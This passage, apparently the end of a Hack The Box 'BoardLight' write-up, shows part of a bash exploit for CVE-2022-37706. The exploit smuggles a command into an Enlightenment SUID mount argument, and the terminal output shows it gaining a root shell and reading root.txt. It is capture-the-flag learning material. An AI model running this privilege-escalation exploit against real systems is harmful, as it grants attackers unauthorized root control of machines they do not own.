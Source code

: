 ```bash

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

Now let's execute it!

```console
larissa@boardlight:~$ chmod +x exp.sh 
larissa@boardlight:~$ ./exp.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# pwd
/home/larissa
# cd /root
# ls
root.txt  snap
# cat root.txt
[REDACTED]
```

## Outro
Many thanks to the creator of this machine, [cY83rR0H1t](https://app.hackthebox.com/users/116842).

Even though it was very easy, I still managed to learn about some new CVEs which is never a bad thing.

\-m3gakr4nus
